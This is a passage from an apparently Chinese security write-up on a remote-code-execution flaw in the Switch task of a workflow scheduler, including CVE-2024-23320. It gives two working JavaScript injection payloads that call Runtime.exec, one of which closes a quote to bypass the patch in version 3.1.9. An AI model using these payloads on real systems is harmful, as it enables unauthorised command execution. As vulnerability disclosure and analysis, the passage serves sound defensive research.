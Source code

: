 其中存在问题的就是这个 Switch 标签，其对应的就是 SwitchTaskProcessor。  
2、创建的内容如下：

[![](assets/1709531007-22eb14d177feba5a339ebe8869563f82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115706-c4f6fce6-d77f-1.png)

在`条件`中输入 Payload：

```plain
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};
```

3、创建成功之后运行即可，会发现命令执行成功，在/tmp 临时目录下生成文件：

## CVE-2024-23320

现在再来看看 3.1.9 版本，直接执行会抛出异常，但可以通过其他方式来执行任意的 JS 代码。前面说到过，generateContentWithTaskParams 方法会将类似${a}这种形式的字符串替换调，即在全局或者传入的参数中寻在 a 变量对应的值，然后将${a}替换成"a 对应的值"。

所以这里只需要在传入的变量中将变量 a 指定成 js 代码即可，Payload 如下：

```plain
";var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};//
```

这里闭合一下"然后拼接同样可以达到命令执行的目的：
